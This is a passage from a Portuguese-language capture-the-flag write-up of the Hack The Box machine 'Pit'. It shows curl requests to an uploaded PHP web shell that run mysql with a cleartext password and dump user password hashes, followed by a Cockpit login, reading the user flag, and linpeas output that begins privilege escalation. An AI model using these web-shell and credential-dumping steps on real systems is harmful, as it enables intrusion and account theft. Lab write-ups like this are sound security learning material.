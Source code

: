 Utilizando o `mysql` via linha de comando, enumerei tabelas, colunas e, por fim, usuários e hashes de senhas utilizando as credenciais obtidas:

```bash
# List Tables
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/30/1.php' --data-urlencode 'cmd=mysql -u seeddms --password=ied^ieY6xoquu -e "use seeddms; select login,pwd,role from tblUsers; exit"'
[...]

# List Columns from tblUsers
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/34/1.php' --data-urlencode 'cmd=mysql -u seeddms --password=ied^ieY6xoquu -e "use seeddms; show columns from tblUsers; exit"'
[...]

# Dump credentials
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/30/1.php' --data-urlencode 'cmd=mysql -u seeddms --password=ied^ieY6xoquu -e "use seeddms; select login,pwd,role from tblUsers; exit"'
login   pwd     role
admin   155dd275b4cb74bd1f80754b61148863        1
guest   NULL    2
michelle        2345f10bb948c5665ef91f6773b3e455        0
jack    682d305fdaabc156430c4c6f6f5cc65d        0
```

Com estes hashes, tentei quebrá-los utilizando `john` e o dicionário `rockyou.txt`, porém sem sucesso.

Como temos as credenciais de banco de dados, lembrei que poderiamos utilizá-las para acessar a console interativa via Cockpit, onde as credenciais do usuário `seeddms` falharam mas funcionou com sucesso para a usuária `michelle`.

Acessando o terminal via portal web, fui capaz de acessar o conteúdo do arquivo `user.txt` e obter a flag

```bash
[michelle@pit ~]$ ls 
check.sh  user.txt
[michelle@pit ~]$ cat user.txt
<redacted>
```

## Root flag

Após submeter a flag, fui incapaz de executar `sudo -l` como executado de costume, logo iniciei a enumeração a partir da conta da usuária `michelle` utilizando o `linpeas.sh`, onde nada de muito interessante foi listado além de um privilégio não usual num arquivo também não padrão do Linux:

```plaintext
╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#acls
# file: /usr/local/monitoring
USER   root      rwx
user   michelle  -wx
GROUP  root      rwx
mask             rwx
other            ---                  
```

